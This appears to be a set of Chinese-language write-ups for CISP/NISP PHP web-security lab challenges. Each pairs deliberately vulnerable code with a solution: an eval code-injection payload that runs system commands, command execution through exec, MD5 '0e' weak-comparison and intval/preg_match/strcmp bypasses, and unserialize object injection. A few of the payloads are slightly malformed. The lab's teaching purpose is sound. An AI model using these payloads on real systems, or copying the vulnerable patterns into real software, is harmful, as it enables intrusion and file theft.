


# 第一题

代码执行漏洞是指没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。请利用该漏洞获取到KEY

```php
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
```

## write up

虽然看不太懂,感觉是字符逃逸类的, 尝试 a=");system("ls



还是有点用处,然后读key.cisp就可以,了


# 第二题

请阅读代码，使用可能的利用方法，并找出可能存在flag的文件并读取flag。

```php
<?php
error_reporting(0); 
show_source(__FILE__);
if(strlen($_GET[1]<30)){
    echo strlen($_GET[1]);
    echo exec($_GET[1]);
}else{
    exit('too more');
}
?>
0
```

## write up

exec 执行外ibu命令,但是只返回最后一行的数据,

所以应该让命令输出在一行中,我使用了 ls | tr '/n' ' '将换行替换为空格显示到一行中

或者用ls | tr -d '\n' 也可以

官方的题解是通过重定向标准输出到一个文件 ls >1.txt 然后再通过网页访问


# 第三题

```
?php
error_reporting(0);
include "flag.php";
$TEMP = "CISP";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo "$flag";
}
show_source(__FILE__);
```

## write up

这是一个序列化的题目,如果记不住格式,可以使用本地的php服务器,.但是要会用 serialize()函数,

```bash
kali@hostname:~$ php -r '$str="CISP";echo serialize($str);'
s:4:"CISP";kali@hostname:~$ 
#或者
kali@hostname:~$ php -r 'echo serialize("CISP");'
s:4:"CISP";kali@hostname:~$ 


```

传入get参数  `str=s:4:"CISP";`


# 第四题

启动环境，通读代码，获得flag值吧，注意flag格式为：flag_nisp_xxxxxx

```php
<?php
$v1 = 0;
$v2 = 0;
//首先要通过url 提供一个w参数
$a = (array)json_decode(@$_GET['w']);
if (is_array($a)) {
    //w参数要是一个json对象,第一个键名为bar1,值是数字
    is_numeric(@$a["bar1"]) ? die("nope") : NULL;
    if (@$a["bar1"]) {
      //bar1 的值还要大于2020
        ($a["bar1"] > 2020) ? $v1 = 1 : NULL;
    }
    //第二个键还是一个数组,键名为bar2
    if (is_array(@$a["bar2"])) {
        //数组的大小不等于5 或者数组的第一个值不能是数组
        if (count($a["bar2"]) != 5 or !is_array($a["bar2"][0])) {
            die("nope");
        }
        //第三个键名为bar3,
        $pos = array_search("cisp-pte", $a["bar3"]);
        //键值需要为字符串"cisp-pte"
        $pos === false ? die("nope") : NULL;
        //便利第二个键,值里面不能有这个字符
        foreach ($a["bar2"] as $key => $val) {
            $val == "cisp-pte" ? die("nope") : NULL;
        }
        $v2 = 1;
    }
}
if ($v1 && $v2) {
    include "key.php";
    echo $key;
}
highlight_file(__file__);
?>
```


根据上面的注释 ,构造w参数

`?w={"bar1":2021;"bar2":[1];"bar3":["cisp-pte"]}`


# 第五题

部分源码如下：

```php


$password = $_GET['password'];

if($password){
    @parse_str($password);
    if($pass[0] != "QNKCDZO" && md5($pass[0]) == md5("QNKCDZO")){
        $flag_path = '../../../flag.txt';
        $flag = @file_get_contents($flag_path);
    if($flag === false) 
    {
   		 echo '文件读取失败，请检查文件路径：' . $flag_path . ' ';
	} else 
    {
		echo '' . htmlspecialchars($flag) . '';
    }

} else 
    {
		echo '访问密钥验证失败，请检查输入！';
	}

}

?>
```

## writeup

主要是了解parse_str 函数的作用:

```php
//实例
//把查询字符串解析到变量中：
$str = "first=value&arr[]=foo+bar&arr[]=baz";
parse_str($str, $output);
echo $output['first']; // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz
```

看一 下 md5("QNKCDZO") 会是什么?
`0e830400451993494058024219903391`

这里使用的是弱比较,那么只要知道 md5($pass[0])编码后为0e 开头,这里的条件判断就能成立

### php科学计数

记住:**240610708** , 他的哈希值是0e462097431906509019562988736854 ,php会将他们当作科学计数进行比较,最终的结果都是0


# 第六题

阅读源码，获取flag。

```php
$tis = "我们可以让您生活更轻松";

$gp = $_GET['cx'];

if($gp) {

		if(preg_match("/[0-9]/", $gp)) {

				$tis = "输入的只能是字符";

		} else {
				if(intval($gp)) {
						$flag = @file_get_contents("../../../flag.txt");
						if($flag === false) {
								$flag = "flag{file_not_found}";
				}
		$tis = $flag;
		} else {

$tis = "只差一步就可以拿到Flag";

}

}

}

?>
```

## writeup

#### 考察preg_match() 函数绕过

这个函数有几个重要特性值得注意：

- 返回值：匹配成功返回1，失败返回0，出错返回false
- 默认行为：只匹配第一次出现的结果
- 匹配方式：默认区分大小写，除非使用`/i`修饰符
- 特殊字符：点号(.)默认不匹配换行符，除非使用`/s`修饰符

使用数组绕过,处理数组时会报错并返回false

#### 考察intval()函数绕过

- 数组为空返回0, 否则返回1


#### 数组传参格式

```
基础一维数组
		?参数名[]=值
		?ids[]=1&ids[]=2

带自定义键名的数组
		?参数名[键名]=值
		?user[id]=1&user[name]=test

空数组
		?参数名[]=
```


本题只要提交一个 有值的数组,就可以了例如: `cx[]=a`


# 第七题

php函数中 intval 和 大于小于都具有弱类型的特点，该如何绕过。

部分源码如下

```php


$gp = $_GET['cx'];

if($gp){

if(intval($gp) == 0 and $gp){

$tis = "目前来看你只能去非洲了!";

}else {

if(is_numeric($gp)){

$tis = "只差一步就可以拿到Flag~";

}else {

if($gp > 18937){

$flag = file_get_contents('../../../flag.txt');

$tis = $flag;

}

}

}

echo "

$tis
";
}

?>
```

## writeup

#### 考察intval()

自动提取**开头的数字**，字母直接忽略,遇到字母 / 符号立刻停止，非数字开头返回 0

intval('18938abc') = 18938

#### 考察is_numeric

只要字符串里**有字母 / 汉字**，就返回 `false`（不是数字）

#### 考察 弱比较

字符串和数字比大小，自动转成数字比较

例：`'18938abc' > 18937 → true`

#### 总结

使用字符串18938a 这种格式就可以绕过


# 第8题

某些PHP intval函数在处理时会出现些问题!


```php
$gp = isset($_GET['cx']) ? $_GET['cx'] : '';
if ($gp) {

if(intval(" .$gp.")<1001 && intval($gp +1)>10000){

    $flag = file_get_contents("../../../flag.txt");

    $tis = "验证通过！Flag: " . $flag;

    $class = "success";

} else {

$tis = "验证失败，请检查输入参数";

$class = "error";

}

} else {

$tis = "请输入测试参数";

$class = "error";

}
```

## write up

#### inval函数

intval('.1e2'); //实际为0.1e1 

这里并不是问题吧,只是科学计数法的利用

如果\$gp='1000e1' ,那么inval(" .1000e1")=1   而intval(\$gp +1)=10001

#### php的科学计数

在进行数学运算（+ - * /）、弱比较 `==` 时，PHP 会自动将「科学计数法格式的字符串」（如 `1000e1`）解析成真正的数字！

#### 另外的解法

感觉php的函数设计太垃圾了,如果这里的\$gp=10000,也可以,inval("  .1000")=0 ,不知道怎么转的


# 第9题



## write up

#### 考察 strcmp函数

字符串比较函数

```php
strcmp(字符串1, 字符串2)
# 相等 → 返回 0
# 不等 → 返回 正数/负数
```

如果给 `strcmp()` 传入 **非字符串类型（数组 / 对象）**函数无法处理 → **报错 + 返回 NULL**
弱比较 `NULL == 0` → **结果为 true**（直接绕过）

这个题目没有说明他后台使用了json_decode ,我们需要传递一个json对象,例如在输入框中输入:

{"a":1}

即可

# 第10题

分析页面源码

```php
<?php
header('Content-Type: text/html; charset=utf-8');
class User {
    public $username;
    public $isAdmin;
    public $admin;
    
    public function __construct($username = "", $isAdmin = false) {
        $this->username = $username;
        $this->isAdmin = $isAdmin;
    }
    
    public function __toString() {
        if (isset($this->admin) && $this->admin instanceof Admin) {
            $flag = $this->admin->getFlag();
            return $flag !== false ? $flag : "无法读取flag文件";
        }
        return "User: " . $this->username . " (Admin: " . ($this->isAdmin ? "Yes" : "No") . ")";
    }
}

class Admin {
    private $secret;
    
    public function __construct() {
        $this->secret = @file_get_contents("/flag.txt");
    }
    
    public function __wakeup() {
        $this->secret = @file_get_contents("/flag.txt");
    }
    
    public function getFlag() {
        return $this->secret;
    }
}

if (isset($_POST['data'])) {
    $data = $_POST['data'];
    try {
        $user = unserialize($data);
        
        if ($user instanceof User) {
            echo "<h2>用户信息：</h2>";
            echo $user;
        } else {
            echo "无效的用户数据！";
        }
    } catch (Exception $e) {
        echo "错误：" . $e->getMessage();
    }
} else {
    echo "请提供数据！";
}
?> 
```

## write up

#### 考察php序列化

```php
<?php
class User {
    public $username;
    public $isAdmin;
    public $admin;
  }
class Admin {
    private $secret;
}

$user=new User();
$user->username = '';
$user->isAdmin = true;
$user->admin = new Admin();

echo base64_encode(serialize($user));
?>
```

